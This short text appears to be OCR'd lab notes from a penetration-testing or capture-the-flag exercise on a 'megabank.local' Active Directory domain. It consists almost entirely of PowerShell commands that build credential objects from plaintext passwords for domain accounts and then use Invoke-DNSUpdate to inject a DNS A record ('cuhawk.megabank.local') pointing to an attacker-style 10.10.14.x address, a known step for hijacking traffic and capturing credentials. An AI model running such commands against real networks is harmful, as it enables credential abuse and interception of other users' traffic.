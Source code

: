 $pass = ConvertTo-SecureString 'Password123' -asplaintext -force 
$cred = New-Object System.Management.Automation.PSCredential('megabank.local\svc_ata',$pass) 

$pass = ConvertTo-SecureString 'Hades123' -asplaintext -force 
$cred = New-Object System.Management.Automation.PSCredential('gigantichosting.local\s.helmer',$pass) 

$pass = ConvertTo-SecureString 'Password123' -asplaintext -force;$cred = New-Object System.Management.Automation.PSCredential('megabank.local\svc_ata',$pass);. c:\users\administrator\documents\dns.ps1;Invoke-DNSUpdate -DNSType A -DNSNAME cuhawk.megabank.local -DNSData 10.10.14.123 -credential $cred